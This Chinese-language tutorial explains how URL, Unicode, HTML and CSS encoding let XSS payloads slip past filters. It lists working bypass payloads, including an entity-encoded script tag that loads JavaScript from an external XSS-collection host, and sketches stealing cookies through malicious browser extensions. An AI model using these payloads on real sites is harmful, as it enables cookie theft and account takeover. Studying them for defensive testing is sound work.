 # XSS编码与绕过

![](/attackUsers/xss/image/xss-17.png)

---

## 01. URL编码
URL只允许用US-ASCII字符集中可打印的字符(0×20—0x7x)，其中某些字符在HTTP协议里有特殊的意义，所以有些也不能使用。这里有个需要注意的，+加号代表URL编码的空格，%20也是。

URL编码最长见的是在用GET/POST传输时，顺序是把字符改成%+ASCII两位十六进制(先把字符串转成ASCII编码，然后再转成十六进制)。

这个在编码DOM XSS可能会用到，比如我上次说的`<<XSS分类与漏洞挖掘>>`0×04节DOM XSS 在chrome maxthon firefox里对URL里的a=后面的字节进行了URL进行编码，只能在360浏览器里成功，这就是浏览器对URL进行了URL编码。

## 02. unicode编码
Unicode有1114112个码位，也就是说可以分配1114112个字符。Unicode编码的字符以%u为前缀，后面是这个字符的十六进制unicode的码点。

Unicode编码之所以被本文提到，因为有的站点过滤了某些字符串的话，但是发现这个站点在后端验证字符串的时候，识别unicode编码，那我们就可以把我们的攻击代码来改成unicode编码形式，就可以绕过站点的过滤机制了。

## 03. HTML编码
HTML编码的存在就是让他在代码中和显示中分开， 避免错误。他的命名实体：构造是&加上希腊字母，字符编码：构造是&#加十进制、十六进制ASCII码或unicode字符编码，而且浏览器解析的时候会先把html编码解析再进行渲染。但是有个前提就是必须要在“值”里，比如属性src里，但却不能对src进行html编码。不然浏览器无法正常的渲染。

例如：
```html
<img src=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

可以正常显示。

但是当你把src或者img进行html编码就不行了

例如：
```html
img &#115;&#114;&#99;=&#108;&#111;&#103;&#111;&#46;&#112;&#110;&#103;/>
```

## 04. CSS编码
这个不是太常用。就是/斜杠加上1-6位十六进制

之前在IE5之前都可以用expression来调用js时，这个编码很有用。 现在大多都是用于CSS小图标。

## 05. 假设
网站检测script标签里的src值是否为网站(关键字有`http&https&com&cn&net&&js`)

那我们该怎么绕过呢，看下面的实例代码：

```html
<script
src="&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#120;&#115;&#115;&#56;&#46;&#112;&#119;&#47;&#98;&#103;&#70;&#102;&#66;&#120;&#63;&#49;&#52;&#49;&#57;&#50;&#50;&#57;&#53;&#54;&#53;"></script>

```

打开审查元素——网络，我们成功的看到了我们的JS被加载了

![](/attackUsers/xss/image/xss-37.png)

XSS平台里也获取到了。

## 05. 常见的绕过方式

```html
<sCrIpt>alert(1)</script>

<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>

<scr<script>rip>alalertert</scr</script>rip> (需要利用waf的不完整性)

<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 120, 115, 115, 39, 41))</script>

```

```html
标签属性`="javascript:JS代码"`(只对支持js伪协议的属性起作用)

```

```html
<标签 on事件="js代码">
```

```html
<script
woaini>
alert(123)
</script
woaini>
```

浏览器下会把换行 TAB符当成空格，把后面的字符当做属性来解析

## 06. 插件安全
即使你网站做的再安全，WAF再怎么完整。我利用插件照样可以绕过。插件的有它的特殊性，也是这个特殊性成就了他的安全问题，那就是“跨域”。

** 我在里说下插件是如何渲染到页面的： **
> 用户打开网站——发送数据包——服务器响应并发送Response包——浏览器收到Response包——渲染(先渲染Response包，再渲染插件的代码)

** 也就是说我在插件里写了一段js，那么用户安装后，凡是打开网站。浏览器渲染后，就可以获取用户的cookies。如果攻击者事先有准备，还可以利用csrf攻击。 **这里我们大胆假设下：

** 假设1： **攻击者把XSS代码封装到插件里，上传到浏览器插件下载网站(管理不严，管理员根本不可能一行一行代码看)，上传成功后。用户下载，并安装。那么攻击者就可以坐在电脑前，喝着咖啡，看着不断刷新的xss数据流…

** 假设2： **攻击者拥有dedecms的csrf(可以添加管理员)，后面的和假设1一样。当网站管理员不小心安装或者使用了带有插件浏览器，网站就会被攻击者控制。有些人会问，几率那么小，怎么可能跑到我身上。是不太可能跑到你身上，倒是有可能跑到其他站长身上，当你想想中国站长有多少时，相信你就会明白了

** 假设3： **攻击者拥有某个浏览器插件的XSC漏洞，再结合插件安全问题，就可以实现用户打开某个网站，就会被不知不觉中安装插件，有些人会说，有XSC我就直接执行任意代码了，谁还蛋疼式的去安装插件。如果攻击者想隐蔽式的攻击呢？而且控制电脑获取cookies我想这个应该比直接安装插件更加麻烦吧？当然攻击者也可以两个同时进行。

当然了，也有很多人会说，我安装安全健康绿色无污染的插件不就不怕了吗。

楼主说的十分有理，只不过你忽视了插件本身的安全问题，我之前所说的都是利用插件的特殊性来完成攻击，可是我并没有说插件本身的安全。

这时恐怕又有人质疑了，插件即使不安全，那也需要用户输入特殊的字符串里完成攻击，你这不就是在自己插自己么。

我所说的插件安全问题指的不是这，而是控制插件的数据流。因为插件的安全问题本身就没多大的利用价值，大多数时候都是自己插自己。

假设有一个在线翻译的插件，鼠标滑词，自动翻译。而这个技术就需要利用到AJAX，而AJAX利用的就是厂商提供的API，而API很多时候都在二级域名，安全性相对来说就比较低了。如果控制API了，那么就可以控制API发送给插件的数据流，从而达到攻击。


